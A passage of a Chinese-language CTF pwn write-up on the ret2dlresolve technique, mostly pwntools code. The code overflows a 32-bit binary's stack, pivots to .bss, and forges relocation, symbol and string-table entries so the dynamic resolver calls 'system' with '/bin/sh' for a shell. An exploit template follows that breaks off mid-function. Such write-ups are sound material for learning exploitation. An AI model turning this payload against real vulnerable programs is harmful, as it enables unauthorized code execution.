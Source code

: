 ```python
bss = elf.bss()
base_addr = bss + 0x800
leave_ret = 0x0804915F
start_resolve = 0x8049030
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr
r_info = (((base_addr + 0x20 - dynsym) // 0x10) << 8) | 0x7
st_name = base_addr + 0x30 - dynstr

leak_info('base_addr', base_addr)
leak_info('rel_plt', rel_plt)
leak_info('dynsym', dynsym)
leak_info('dynstr', dynstr)

payload = b'a'*0x108 + p32(base_addr-4) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(base_addr) + p32(0x200)
sh.send(payload)

payload = p32(start_resolve) + p32(base_addr + 0x18 - rel_plt) + p32(0xdeadbeaf) + p32(0) + p32(bss + 0x200) + p32(0x200)
payload += p32(0x804C010) + p32(r_info) # fake Elf32_Rel结构体
payload += b'a' * 0x0 # 此处我的base_addr已经以0xc对齐，因此没有改动。若不对齐，需要以无关字符填充，使得下面这一行是0xc对齐的
payload += p32(st_name) + p32(0) + p32(0) + p32(0x12) # 4字节的st_name， 4字节的st_value， 4字节的st_size，和其他
payload += b'read\x00' # 伪造的dynstr字符串
sh.send(payload)
```

## 0x06. 修改字符串，执行任意函数

我们执行的函数，实际上最终就是解析到的字符串的函数。

因此，我们修改该字符串，将其改为任意函数名，例如`system`，即可执行`system`函数！

我们这里改为`system`，并写下其参数`/bin/sh`，即可`getshell`~

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
```